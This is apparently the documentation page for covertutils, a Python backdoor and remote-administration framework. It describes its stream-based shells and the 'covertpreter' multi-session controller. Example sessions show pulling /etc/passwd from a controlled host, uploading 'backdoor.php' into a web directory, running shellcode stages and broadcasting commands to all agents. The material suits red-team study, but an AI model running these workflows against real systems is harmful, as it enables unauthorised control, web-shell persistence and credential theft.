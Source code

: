 

Shells & SubShells
==================

When a class from the :mod:`covertutils.shells` family is used to hook and interact with the :class:`Handler` object, several built-in features can be used.


The shells provided by the package are `(thank god)` **<Ctrl-C> resistant**, and modular, in a sense that no single shell interface accepts `every command`.

As the architecture of a ``covertutils`` backdoor implies, all data flows through a virtual `stream` that is identified by an OTP mechanism (see :ref:`streamidentifier_component`). The other side `(Agent)` can handle data from **different streams in different ways**.



The shell that spawns when the :meth:`covertutils.shell.BaseShell.start` method is used is almost a dummy. It runs no commands from itself. It is there to provide the `stream menu` and handle `exit commands`.
This design makes easier the creation of custom command suites, `without expanding` the parent classes (but `inheriting` from them).

Enough subshells have been created for an everyday backdoor (`shell`, `file transfer`, even `shellcode execution` see :ref:`stages_page`), but the ability to create and integrate new ones along with the existing is given through the use of a parent shell approach.


The *Session Shell*
*******************

Stream Menu
+++++++++++


The parent shell spawns the `stream menu` with a `<Ctrl-C>` - ``KeyboardInterrupt``. From there, the user can jump to SubShells to access real commands (either `OS` or `Python` or whatever is loaded at the given time).

.. code:: bash

	(127.0.0.1:58504)>
	Available Streams:
		[ 0] - control
		[ 1] - python
		[ 2] - os-shell
		[ 3] - file
		[ 4] - stage
		[99] - Back
	Select stream:


Dispatching commands with ``"!"`` `(exclamation mark)`
++++++++++++++++++++++++++++++++++++++++++++++++++++++

From the `Parent Shell` it is possible to issue commands to any SubShell just by prepending the ``"!"`` and the `stream name` before the actual command.

.. code:: bash

	(127.0.0.1:58504)> !python print "Dispatching to Python Stream"
	Dispatching to Python Stream


Typing only the ``"!"`` and the `stream name` will jump to the `stream's` SubShell.

.. code:: bash

	(127.0.0.1:58504)> !python
	[python] >>>

This way SubShells with only one or two commands can be used without directly accessed.

.. code:: bash

	(127.0.0.1:58504)> !file download /etc/passwd

.. code:: bash

	(127.0.0.1:58504)> !stage fload my_custom_module.py

.. code:: bash

	(127.0.0.1:58504)> !control reset


The ``"!"`` can be used from SubShells too, making file transfers handy:

.. code:: bash

	[os-shell]> ls
	index.html

	[os-shell]> !file upload backdoor.php
	File uploaded succesfully!

	[os-shell]> ls
	index.html
	backdoor.php


Exiting
+++++++

Exiting the `Parent Shell` with ``exit`` or ``q`` or ``quit`` will make the :meth:`covertutils.shell.BaseShell.start` method to return. This design is preferred from the ``sys.exit(0)`` approach, as it leaves open the possibility of a `multi-shell`, used for session management purposes, providing features like the ``session -i`` of `meterpreter`.



.. note :: Also the :class:`covertutils.shell.impl.StandardShell` class and derivatives contain a ``sysinfo`` class variable, populated when the ``!control sysinfo`` command is first run. This variable is accessible from outside the class, providing information of the controlled system. This can be used to create a brief line similar to `meterpreter`'s ``session -l`` command.


The ``covertpreter`` Session Shell aggregator
**********************************************

Controlling a single host is **rarely the case though**! Backdoor tools are frequently expanded to RATs (Remote Administration Tools), as there are needs for multiple *Agents* being controlled *at the same time*.

``covertutils`` provides the ``covertpreter`` shell under ``covertutils.shells.multi`` subpackage, to address the need of a **a shell to rule them all**.


Session Management
++++++++++++++++++

Basically, ``covertpreter`` is a class maintaining several implementations of the ``covertutils.shells.BaseShell`` class, under an internal data structure,
dispatching commands to each of them, and letting the user '*jump*' into a currently running session.

.. code :: bash

	covertpreter> session -l
		Current Sessions:
	0) 28d4a1a19dcb924c - <class '__main__.MyHandler'>
	System Info: N/A

	1) faee224f3f61e1d7 - <class '__main__.MyHandler'>
	System Info: N/A

	covertpreter> session -i 1
	(covertutils v0.3.4)>
	(covertutils v0.3.4)> !control identity
	Sending 'ID' control command!
	0511ddb0
	(covertutils v0.3.4)>
	<Ctrl-C>
	covertpreter> session -s 28d4a1a19dcb924c
	(covertutils v0.3.4)> !control identity
	Sending 'ID' control command!
	(covertutils v0.3.4)> d72b5e5e
	<Ctrl-C>
	covertpreter>


It also possible to command all running sessions **at-once**. Or select the Sessions to dispath a command using their IDs.

.. code :: bash

	covertpreter> control reset
	No sessions selected, ALL sessions will be commanded
	Are you sure? [y/N]: y
	'!control reset' -> <28d4a1a19dcb924c>
	Reseting handler
	Sending 'RST' control command!
	'!control reset' -> <faee224f3f61e1d7>
	Reseting handler
	Sending 'RST' control command!
	OK
	OK
	covertpreter>

Selectively executing commands:

.. code :: bash

	covertpreter> 28d4a1a19dcb924c control sysinfo
	'!control sysinfo' -> <28d4a1a19dcb924c>
	Sending 'SI' control command!
	General:
		Host: hostname
		Machine: x86_64
		Version: #1 SMP Debian 4.12.6-1kali6 (2017-08-30)
		Locale: en_US-UTF-8
		Platform: Linux-4.12.0-kali1-amd64-x86_64-with-Kali-kali-rolling-kali-rolling
		Release: 4.12.0-kali1-amd64
		System: Linux
		Processor:
		User: unused

	Specifics:
		Windows: ---
		Linux: glibc-2.7
	covertpreter>



The ``sysinfo`` information is stored for later usage in the shell which it received it.

The Sessions can be listed with (you guessed it) ``-l[v]``:

.. code :: bash

	covertpreter> session -l
		Current Sessions:
	0) 28d4a1a19dcb924c - <class '__main__.MyHandler'>
	hostname - Linux-4.12.0-kali1-amd64-x86_64-with-Kali-kali-rolling-kali-rolling - en_US-UTF-8 - unused

	1) faee224f3f61e1d7 - <class '__main__.MyHandler'>
	System Info: N/A

``-v`` also lists the available streams/extensions per session:

.. code :: bash

	covertpreter> session -lv
		Current Sessions:
	0) 28d4a1a19dcb924c - <class '__main__.MyHandler'>
	hostname - Linux-4.12.0-kali1-amd64-x86_64-with-Kali-kali-rolling-kali-rolling - en_US-UTF-8 - unused
		-> control
		-> python
		-> os-shell

	1) faee224f3f61e1d7 - <class '__main__.MyHandler'>
	System Info: N/A
		-> control
		-> python
		-> os-shell


The ``handler`` command of ``covertpreter``
+++++++++++++++++++++++++++++++++++++++++++

Here is where the **magic starts!**
As there is no actual network server behind ``covertutils``, and networking is intentionally left to the developer, adding sessions doesn't depend on server management/sockets/NATs etc...

Also a ``covertpreter`` instance only recognises implementations of `covertutils.shells.BaseShell`. So adding a session means adding another ``BaseShell`` object in its data structure.

So, for a freshly writtent *Handler* file, say ``handler.py``, which invokes a ``BaseShell`` derived object, named ``shell``,
and calls the ``shell.start()`` to start interacting, there is a way to be added to an already running ``covertpreter`` process.


.. code :: bash

	covertpreter> handler add -h
	usage: handler add [-h] [--shell SHELL] SCRIPT [ARGUMENTS [ARGUMENTS ...]]

	positional arguments:
	  SCRIPT                The file that contains the Handler in Python
	                        'covertutils' code
	  ARGUMENTS             The arguments passed to the Python 'covertutils'
	                        handler script

	optional arguments:
	  -h, --help            show this help message and exit
	  --shell SHELL, -s SHELL
	                        The argument in the Python code that contains the
	                        'covertutils.shell.baseshell.BaseShell' implementation

That basically means that by using a command like the following:

.. code :: bash

	covertpreter> handler add --shell shell_implementation handler.py  <arguments to handler script>

The object defined in the ``handler.py`` will get listed to the ``sessions -l`` list of ``covertpreter``,
after running the Python code found in ``handler.py`` with ``<arguments to handler script>`` as arguments.

.. note :: The ``handler.py`` won't pollute the main script's `Namespace`. It is executed in a different `Namespace` ``dict``.


The new session will be directly usable, without ``covertpreter`` depending on its transfer method, or internals...

**That's what we get if we completely abstract the networking from the backdoor development!**


Have fun with ``covertpreter``!
